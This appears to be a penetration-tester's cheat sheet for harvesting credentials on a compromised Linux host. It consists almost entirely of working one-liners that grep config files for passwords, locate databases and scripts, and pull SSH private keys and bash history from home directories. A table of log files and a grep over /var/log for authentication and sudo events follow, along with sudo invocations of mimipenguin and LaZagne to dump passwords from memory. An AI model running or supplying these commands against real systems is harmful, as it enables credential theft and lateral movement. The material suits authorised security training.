 Sample for credentials:
`for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done`

Databases:
`for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done`

Notes
`find /home/* -type f -name "*.txt" -o ! -name "*.*"`

Scripts
`for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done`

Cronjobs
`cat /etc/crontab `

SSH Private Keys
`grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"`

SSH Public Keys
`grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"`

Bash History
`tail -n5 /home/*/.bash*`

Logs:
    Log File 	Description
    /var/log/messages 	Generic system activity logs.
    /var/log/syslog 	Generic system activity logs.
    /var/log/auth.log 	(Debian) All authentication related logs.
    /var/log/secure 	(RedHat/CentOS) All authentication related logs.
    /var/log/boot.log 	Booting information.
    /var/log/dmesg 	Hardware and drivers related information and logs.
    /var/log/kern.log 	Kernel related warnings, errors and logs.
    /var/log/faillog 	Failed login attempts.
    /var/log/cron 	Information related to cron jobs.
    /var/log/mail.log 	All mail server related logs.
    /var/log/httpd 	All Apache related logs.
    /var/log/mysqld.log 	All MySQL server related logs.

`for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done`

### Memory and cache
We can use mimipenguin
[mimipenguin](https://github.com/huntergregal/mimipenguin)
`sudo python3 mimipenguin.py`
`sudo bash mimipenguin.sh`

Can also use Lazagna:
`sudo python2.7 laZagne.py all`
